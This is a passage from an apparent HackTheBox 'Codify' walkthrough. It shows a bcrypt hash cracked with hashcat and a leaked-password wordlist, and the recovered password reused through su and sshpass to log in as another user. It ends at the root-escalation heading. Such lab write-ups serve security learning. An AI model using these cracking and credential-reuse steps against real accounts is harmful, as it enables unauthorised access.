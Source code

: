 
It tries to match the hash format, but there are four options it finds that
could match. There’s a few ways to figure this out:

  * If this were a live application, create a user and then try to crack that hash with a very short wordlist that includes the password I created. That way I know the format works or doesn’t.
  * Look at the source. It’s fetching the row based on the username, and then passing the input password along with the password hash in the row to `bcrypt.compare` on line 85. This is a good indication it’s using straight bcrypt (3200).
  * Just guess that it’s the simplest one, and see if it works.

I’ll try again with the basic Blowfish, 3200:

    
    
    oxdf@corum:~/hackthebox/codify-10.10.11.239$ hashcat -m 3200 joshua.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting
    ...[snip]...
    $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
    ...[snip]...
    

It cracks to “spongebob1”.

### Shell

That password works for joshua with `su`:

    
    
    svc@codify:~$ su - joshua
    Password: 
    joshua@codify:~$
    

It also works for SSH:

    
    
    oxdf@hacky$ sshpass -p spongebob1 ssh joshua@codify.htb
    Warning: Permanently added 'codify.htb' (ED25519) to the list of known hosts.
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
    ...[snip]...
    joshua@codify:~$
    

joshua has access to `user.txt`:

    
    
    joshua@codify:~$ cat user.txt
    6a3e7712************************
    

## Shell as root

### Enumeration

joshua can run a backup shell script as root:
